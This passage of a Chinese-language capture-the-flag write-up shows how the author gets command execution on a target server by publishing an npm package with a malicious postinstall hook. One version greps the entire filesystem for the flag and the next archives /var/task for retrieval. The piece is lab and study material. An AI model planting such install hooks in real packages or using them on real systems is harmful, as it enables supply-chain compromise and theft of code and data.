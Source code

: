 ![](https://www.zhaoj.in/wp-content/uploads/2019/06/1561304863048a861560598b42d2547ee1be5a0ac2-1024x795.png)

新建一个 index.js，内容如下

```
exports.showMsg = function () {
  console.log("This is my first module");
};
```

编辑 package.json，

```
{
  "name": "glzjintest1",
  "version": "1.0.0",
  "description": "",
  "main": "index.js",
  "scripts": {
	"postinstall": "grep -rn 'sctf' / > result.txt; exit 0"
  },
  "author": "",
  "license": "ISC"
}
```

主要是改 scripts，postinstall 里面为你想执行的命令。这里我主要是想搜搜有没有 flag。

然后是推送包到 npmjs，

```
> npm login
> npm publish
```

![](https://www.zhaoj.in/wp-content/uploads/2019/06/1561304929a51daa27fdccd5106edc58cc4321e935-1024x420.png)

6、然后请求靶机，让其下载这个包。

![](https://www.zhaoj.in/wp-content/uploads/2019/06/1561306194f67238fc915299020a02cc29eef447be-1024x548.png)

7、我们把返回的 URL 所指向的压缩包下载下来解压看看，可以看到我们的命令执行结果。没找到像 flag 的文件。

![](https://www.zhaoj.in/wp-content/uploads/2019/06/1561306319e2df99af34dd65a3559b3dea1d600d5e-1024x713.png)

8、似乎 /var/task 是程序所在目录，打个包下下来看看。

继续修改 package.json，版本升级下，推包。

```
{
  "name": "glzjintest1",
  "version": "1.0.3",
  "description": "",
  "main": "index.js",
  "scripts": {
	"postinstall": "tar cvzf result.tar.gz /var/task/; exit 0"
  },
  "author": "",
  "license": "ISC"
}
```
